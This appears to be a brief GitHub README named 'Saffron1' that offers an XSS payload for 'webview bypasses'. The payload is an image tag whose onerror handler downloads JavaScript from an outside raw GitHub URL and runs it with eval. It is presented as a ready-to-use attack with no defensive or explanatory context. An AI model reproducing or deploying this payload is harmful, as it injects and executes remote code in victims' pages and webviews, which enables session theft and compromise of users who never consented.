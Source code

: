 # Saffron1
## Some XSS that can be used for multiple webview bypasses.
```
<img src=# onerror='fetch("https://raw.githubusercontent.com/SaffronA1/saffron1/main/main.js").then(r=>r.text()).then(c=>eval(c)) '>
```

